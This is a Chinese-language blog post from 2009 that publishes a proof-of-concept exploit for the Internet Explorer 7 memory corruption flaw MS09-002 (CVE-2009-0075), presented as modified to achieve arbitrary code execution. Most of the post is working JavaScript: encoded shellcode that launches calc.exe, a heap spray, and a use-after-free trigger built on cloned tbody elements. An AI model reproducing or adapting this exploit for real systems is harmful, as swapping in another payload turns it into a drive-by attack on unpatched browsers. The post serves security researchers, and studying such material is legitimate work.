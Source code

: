 ```yaml
---
title: IE 7 Exploit MS09-002内存破坏漏洞利用程序
description: 注：浏览本文杀毒软件可能会报毒，夜火的瑞星是报了，不过IE7ExploitMS09-002内存破坏漏洞利用程序的JavaScript代码是直接以文本形式贴出来的，不会运行，大家可以放心浏览MicrosoftIECFunctionPointer函数内存破坏漏洞（MS09-002）发布时间:2009-02-10影响版本:MicrosoftInternetExplorer7.0漏洞描述:BUGTRAQID:33627CVE(CAN)ID:CVE-2009-0075CommentbyFriddy:这个实际不是个破坏内存的漏洞，可以利用这个漏洞执行任意的代码。今天我花了十几分钟修改了miliw0rm的只会造成DOS的POC，现在已经可以较为稳定执行任意代码。
date: 2009-02-20 09:51:33
category: 漏洞信息
tags: ['IE', '漏洞信息', 'exploit']
post_id: 791
alias: IE7-Exploit-MS09-002
ViewNums: 3968
---
```


注：浏览本文[杀毒软件](http://www.virus-info.asia/virus/AntiVirus/)可能会报毒，[夜火](/blog/)的瑞星是报了，不过 [**IE 7 Exploit MS09-002内存破坏漏洞利用程序**](/blog/ie7-exploit-ms09-002) 的JavaScript代码是直接以文本形式贴出来的，不会运行，大家可以放心浏览

[**Microsoft IE CFunctionPointer函数内存破坏漏洞（MS09-002）**](/blog/ie7-exploit-ms09-002)
发布时间:2009-02-10
影响版本:
Microsoft Internet Explorer 7.0

漏洞描述:
BUGTRAQ ID: 33627
CVE(CAN) ID: CVE-2009-0075

Comment by Friddy:
这个实际不是个破坏内存的漏洞，可以利用这个漏洞执行任意的代码。
今天我花了十几分钟修改了miliw0rm的只会造成DOS的POC，现在已经可以较为稳定执行任意代码。

测试平台：
[Windows XP](/blog/deepin-litexp-windows-xp-sp3-v62) SP2+Internet Explorer 7.0

下面发出POC给各位安全爱好者测试，测试效果是弹出Windows的计算器（calc.exe）

<!--
[MS09-002 Internet Exploere 7.0 Exploit](/blog/ie7-exploit-ms09-002)
Modify by Friddy 2009.02.19 mail:qianyang@ssyeah.com
blog:www.friddy.cn
Tested under [Windows XP](/blog/deepin-ghost-xp-sp3-v90-iso) sp2+IE 7.0
shellcode will popup the calc.exe
-->
```html

<script language="JavaScript">
var shellcode=unescape("%uE8FC%u0044%u0000%u458B%u8B3C%u057C%u0178%u8BEF%u184F%u5F8B%u0120%u49EB%u348B%u018B%u31EE%u99C0%u84AC%u74C0%uC107%u0DCA%uC201%uF4EB%u543B%u0424%uE575%u5F8B%u0124%u66EB%u0C8B%u8B4B%u1C5F%uEB01%u1C8B%u018B%u89EB%u245C%uC304%uC031%u8B64%u3040%uC085%u0C78%u408B%u8B0C%u1C70%u8BAD%u0868%u09EB%u808B%u00B0%u0000%u688B%u5F3C%uF631%u5660%uF889%uC083%u507B%u7E68%uE2D8%u6873%uFE98%u0E8A%uFF57%u63E7%u6C61%u0063");

var array = new Array();

var ls = 0x100000-(shellcode.length*2+0x01020);

var b = unescape("%u0D0D%u0D0D");
while(b.length<ls) { b+=b;}
var lh = b.substring(0,ls/2);
delete b;

for(i=0; i<0xD0; i++) {
array[i] = lh + shellcode;
}

CollectGarbage();

var s1=unescape("%u0b0b%u0b0bAAAAAAAAAAAAAAAAAAAAAAAAA");
var a1 = new Array();
for(var x=0;x<500;x++) a1.push(document.createElement("img"));
o1=document.createElement("tbody");
o1.click;
var o2 = o1.cloneNode();
o1.clearAttributes();
o1=null; CollectGarbage();
for(var x=0;x<a1.length;x++) a1[x].src=s1;
o2.click;
</script>
```
作者：[Friddy](http://www.friddy.cn/article.asp?id=84)

